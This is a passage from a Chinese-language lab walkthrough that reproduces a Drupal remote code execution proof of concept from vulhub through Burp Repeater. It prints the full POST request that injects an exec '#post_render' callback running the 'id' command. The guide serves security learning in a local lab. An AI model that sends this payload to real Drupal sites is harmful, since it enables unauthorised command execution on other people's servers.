   ![import](./img_6/导入证书.png)

4. 进行完如上步骤后即可捕获数据包信息，但复现PoC中的内容不用捕获数据包也能实现：
   * 进入`burp`中
   * 进入`Repeater`中设置靶机地址(即之前vulhub中yaml文件中的端口号和虚拟机ip)
  
![adress](./img_6/靶机.png)
   * 然后在request中输入vulhub中给出的Poc代码，注意其中的your-ip为主机的ip地址,后面紧跟着的端口号为创建drupal所使用的端口号(默认为8080)
   ```
      POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
      Host: your-ip:8080
      Accept-Encoding: gzip, deflate
      Accept: */*
      Accept-Language: en
      User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
      Connection: close
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 103

      form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
  ```
   * 进行完以上操作后点击发送，确保代码缩进空格等都没有问题，在Response中即可显示响应数据包信息
